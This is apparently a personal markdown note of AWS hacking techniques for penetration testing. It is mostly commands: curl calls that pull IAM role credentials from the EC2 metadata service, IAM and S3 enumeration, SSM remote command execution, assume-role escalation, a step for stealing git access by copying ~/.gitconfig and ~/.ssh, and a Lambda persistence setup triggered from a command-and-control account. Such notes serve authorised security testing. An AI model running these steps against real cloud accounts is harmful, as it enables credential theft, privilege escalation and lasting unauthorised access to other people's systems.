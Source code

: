 ```yaml
---
tags: a/topic
---
```

in:: [[hacking]]
```breadcrumbs
type: tree
dir: down
depth: -1
from: -"_templates"
```
# Notes
AWS hacking notes

## Stealing AWS token from metadata service
```
curl  http://169.254.169.254/latest/meta-data/iam/security-credentials/
```
* Copy the role name returned
```
curl  http://169.254.169.254/latest/meta-data/iam/security-credentials/<role_name>
```

or
```
export ROLE_NAME=`curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/`
echo "Instance role is ${ROLE_NAME}"
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/${ROLE_NAME}/
```

### aws cli
```
aws sts get-session-token
```
won’t work if you’re already using session creds

## Finding out who you are
Pull the instance profile from metadata
```
curl  http://169.254.169.254/latest/meta-data/iam/info/
```
* Copy the InstanceProfileArn field from the result

Pull the role name from metadata
```
curl  http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

AWS command line
```
aws sts get-caller-identity
```

## Finding out what you have access to
Get Role. Shows trust relationships.
```
aws iam get-role --role-name ${ROLE}
```

List managed policies attached to role
```
aws iam list-attached-role-policies --role-name $ROLE
```

Get Inline Role Names
```
aws iam list-role-policies --role-name $ROLE
```

Iterate over all inline policies
```
for POLICYNAME in `aws iam list-role-policies --role-name $ROLE | jq -r '.PolicyNames[]'`; do aws iam get-role-policy --role-name $ROLE --policy-name $POLICYNAME; done
```
Retrieves the specified inline policy document that is embedded with the specified IAM role.
```
aws iam get-role-policy --role-name <value>
```
aws iam get-instance-profile —instance-profile-name <instance_profile_name>     (gets roles and policies that this instance profile has)

## Escalation (using assume role)
Pulling interesting metadata
curl  http://169.254.169.254/latest/meta-data/
curl  http://169.254.169.254/latest/user-data
curl  http://169.254.169.254/latest/dynamic/
curl  http://169.254.169.254/latest/meta-data/iam/info/
curl  http://169.254.169.254/latest/meta-data/iam/security-credentials/<instance_profile_name>

Running aws-configure
```
mkdir ~/.aws
cat <<EOF >~.awsconfig
[default]
output = json
region = us-east-1
EOF
```

## Aws CLI fun
```
aws iam get-instance-profile —instance-profile-name <instance_profile_name>
aws iam get-role —role-name jslave
aws iam list-account-aliases
aws ec2 describe-security-groups —group-names ‘Default’ —query ‘SecurityGroups[0].OwnerId’ —output text               (cheat for getting current account id)
aws iam list-roles
aws iam list-attached-role-policies —role-name <role_name>
aws iam list-role-policies —-role-name <role_name>
aws iam get-role-policy —-role-name <role_name> —policy-name <policy_name>
```

Aws CLI get current user (one of these may work)
```
aws iam get-user
aws sts get-caller-identity
```
AWS SSM Run commands
```
aws ssm send-command --instance-ids "i-0ddd4588e3ab7bd99" --document-name "AWS-RunShellScript" --comment "IP config" --parameters commands=ifconfig --output text
```

Getting account info
Get-caller-identity gives the account number. List-account-aliases gives alias.
```
aws sts get-caller-identity
aws iam list-account-aliases
```

Sign in URL
https://Your_AWS_Account_ID.signin.aws.amazon.com/console/
https://Your_Alias.signin.aws.amazon.com/console/


AWS S3 CLI

```
aws s3 ls
aws s3 ls s3://bucket/dir/
aws s3 cp s3://bucket/dir/file .
```

AWS codecommit
```
aws codecommit list-repositories —region us-east-1
```
Things to work on
```
aws sts get-session-token
```

Testing git access

```
cat ~/.gitconfig
find / | grep ‘.git/config’        (finding any local git repos)
cat ….git/config               (finding where the git repos are hosted)
git config --list
```
- there does not seem to be a way to get a list of all repos. bitbucket has an api that will list them if you have a username/password (and not just an ssh key)

Stealing git access

- copy ~gitconfig and all the files in ~.ssh

SSRF notes

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery

# Assume Role
If a given role can assume other roles, this is how to switch
aws sts assume-role --role-arn "arn:aws:iam::123456789012:role/example-role" --role-session-name AWSCLI-Session

# Burp AWS Scopes
^.*\.amazonaws\.com$
^.*\.cloudfront\.net$

## Config file format
```
{
    "enabled":true,
    "host":"^.*\\.amazonaws\\.com$",
    "protocol":"any"
},
{
    "enabled":true,
    "host":"^.*\\.cloudfront\\.net$",
    "protocol":"any"
}
```

# Cloudformation
## Creating user via cloudformation
```
aws cloudformation create-stack --stack-name myuser --template-body file://user.yaml --capabilities CAPABILITY_NAMED_IAM
```

## Persistence
### Lambda
* On compromise (instance or lambda)
* Create lambda
	* Using existing role
	* Set to trigger on SNS messages from C&C in another account.
[AWS SNS to Lambda Cross Account Setup - Shogan.tech](https://www.shogan.co.uk/aws/aws-sns-to-lambda-cross-account-setup/)

# References
* [AWS - Pentest Book](https://pentestbook.six2dez.com/enumeration/cloud/aws)
* [GitHub - RhinoSecurityLabs/pacu: The AWS exploitation framework, designed for testing the security of Amazon Web Services environments.](https://github.com/RhinoSecurityLabs/pacu)
- https://github.com/DataDog/stratus-red-team - aws attack tool
